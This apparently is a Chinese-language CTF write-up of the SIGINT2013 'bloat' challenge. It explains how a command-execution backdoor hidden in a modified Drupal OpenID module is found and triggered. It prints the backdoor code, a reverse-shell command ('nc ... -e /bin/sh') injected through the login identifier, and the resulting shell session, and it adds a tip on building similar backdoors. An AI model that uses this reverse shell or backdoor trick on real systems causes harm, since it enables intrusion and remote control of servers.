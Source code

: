 ```yaml
---
layout: post
title: "SIGINT2013 cloud200 bloat"
description: "SIGINT2013 cloud200 bloat hunt for backdoor"
category: "writeup"
tags: ["SIGINT2013", "web", "writeup"]
---
```

{% include JB/setup %}
#SIGINT2013 cloud200 bloat

Description

    My friend set up this site for me. I don't trust him.
    He installed a backdoor for sure. Can you find it?
    He just wrote me, what this system is using.
    Somehow it looks diff-erent o_O:
	http://a0.ctf.sigint.ccc.de/

[cdd-7.20.tar_0.gz](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/cdd-7.20.tar_0.gz)

[source_code.tar.bz2](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/source_code.tar.bz2)

这道题比赛的时候只有一个队伍做出来。虽然只有200分，但过程比较复杂。
我本来预期花一两个小时就能解决这个问题，结果却耗费了四个小时。

首先也是最关键的问题就是如何找到后门。
这个网站使用的是开源系统drupal 7.20，还附带了一些插件。但问题并不是直接diff那么简单。
官方的源码附有详细的注释，但修改版中将所有注释全部删掉了，还把代码风格从K&R风格改成了一种很混乱的样子，甚至将所有的变量名替换成了奇奇怪怪的东西。

手工查找人眼识别几乎是不可行的。必须想其它办法。

比赛的时候卡在其他题上面了，没有时间仔细看这道题。事后才想起来可以写一个文本处理器，把php文件全部“格式化”一遍：去掉注释+统一格式+统一变量命名。

[PHP_filter.cpp](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/filter.cpp)

处理注释是最麻烦的一步，要判断引号和各种注释符，最终版本的代码也还有瑕疵。
因为只需要比对出文件的不同之处，所以不需要维护代码风格和变量名。为了统一，我把所有可能换行的`{};,:()`全都强行换行，又将所有变量名指定成了$000。

用这个非常挫的文本处理器半自动操作，效率已经比人眼识别提升很多，而且出错率降低很多。
但是将所有`.php`文件对比之后并没有什么收获。
再去查看源码中的文件，发现`.php`的文件其实并不多。很多插件都是以`.inc\.module`这样的后缀结尾的。

再扫描一遍`.inc`后缀的文件，果然发现有一个文件`./bloat/modules/openid/openid.inc`略有不同。

    10 define('OPENID_DH_DEFAULT_GEN', '86');
    
而原版中的openid是

    22 /**
    23  * Diffie-Hellman generator; used for Diffie-Hellman key exchange computations.
    24  */
    25 define('OPENID_DH_DEFAULT_GEN', '2');
    
这是跟用户认证有关的一个常量。修改这种值也许会造成认证系统的一些缺陷。
继续看代码，我有了更大的收获。

在`./bloat/modules/openid/openid.module`中代码逻辑与原版有明显的不同。

    197 function openid_login_validate($quench, &$tickers)
    198    {
    199 $return_to = $tickers['values']['openid.return_to'];
    ...
    204   openid_begin($tickers['values']['openid_identifier'], $return_to, $tickers['values']);
    ... 
    207      function openid_begin($imaginably, $overlay = '', $termination = array())
    ...
    212       if(strpos($imaginably, '@'))
    213   {
    214    list($user, $host) = explode('@', $imaginably, 2);                                                                                                                                         
    215 }
    216 else
    217     {
    218      $user = false;
    219      $host = false;
    220      }
    
`214    list($user, $host) = explode('@', $imaginably, 2);`中`$imaginably`正是用户提交的认证用户名。
再来看看这些变量做了什么。

    248 $user_enc = _openid_dh_long_to_base64($user * OPENID_DH_DEFAULT_GEN);
    249     $service['uri'] = drupal_map_assoc(array($host), $user_enc);
    259   openid_redirect($service['uri'], $ramparts);
    
这里用到了修改过的常量`OPENID_DH_DEFAULT_GEN`。
drupal_map_assoc()返回的是数组，所以在redirect过程中会被强转成字符串"Array"，最后在跳转的时候会出错。
而这个[drupal_map_assoc()](https://api.drupal.org/api/drupal/includes%21common.inc/function/drupal_map_assoc/7)则暗藏玄机。
根据官方文档，drupal_map_assoc()会把第一个参数$array中的每个参数依次传入第二个参数$callable执行并返回一个数组。
这里藏着一个命令执行后门啊。。。。
只要`is_callable($user_enc)`就能直接执行`$user_enc($host)`。
而`$user_enc`是从`$user * OPENID_DH_DEFAULT_GEN`解出来的。
因为`OPENID_DH_DEFAULT_GEN`的限制，所以这个`$user_enc`必须是按照base64解成整形之后能整除86（中间还有一些过程）。

现在要做的就是找一个合适的函数，恰好能满足这个条件了。

    slipper@NULL:~/CTF/SigintCTF2013/cloud/bloat/bloat/modules/openid$ php -a
    Interactive shell
    
    php > include './openid.inc';
    php > var_dump(is_callable('system'));
    bool(true)
    php > var_dump(is_callable('systeM'));
    bool(true)
    php > echo _openid_dh_base64_to_long('system')/OPENID_DH_DEFAULT_GEN ."\n";
    34952922.72093
    php > echo _openid_dh_base64_to_long('System')/OPENID_DH_DEFAULT_GEN ."\n";
    14664196.395349
    php > echo _openid_dh_base64_to_long('SYstem')/OPENID_DH_DEFAULT_GEN ."\n";
    14347185.046512
    php > echo _openid_dh_base64_to_long('eval')/OPENID_DH_DEFAULT_GEN ."\n";
    93703.872093023
    php > echo _openid_dh_base64_to_long('exec')/OPENID_DH_DEFAULT_GEN ."\n";
    93802


因为这里的is_callable是不区分大小写的，本来我还以为后门作者刻意选择了大小写混用的函数名，本来差点要写程序暴搜的。还好偶然发现exec正好符合要求。^_^

**如果以后要用这种方法做后门，记得一个有大因子的大小写混用的函数名哦。**

接下来就是命令执行了。
可是用`93802@echo a > a`结果并没有生成文件a。似乎对网站的目录木有写权限。
如果要获取flag，必须要有传递信息的途径。
唯一能想到的方法就只有反连了。
幸运的是服务起的nc有-e选项，正好可以交互，不然还得一次一次地执行命令。

用`93802@nc x.x.x.x 8080 -e /bin/sh`反弹，本地用`nc -l 8080`监听。

    pwd
    /var/www
    ls -la ./
    total 7904
    drwxr-xr-x  9 root root    4096 Jul  5 01:23 .
    drwxr-xr-x 14 root root    4096 Jul  5 01:53 ..
    -rw-r--r--  1 root root   75028 Mar  7 17:26 CHANGELOG.txt
    -rw-r--r--  1 root root    1481 Mar  7 17:26 COPYRIGHT.txt
    ...
    -rw-r--r--  1 root root      34 Jul  5 01:01 ___F_L_A_G___
    ...
    cat ___F_L_A_G___
    not here, see /flag on filesystem
    cat /flag
    SIGINT_d4b0844c

看来果然是木有写权限～～
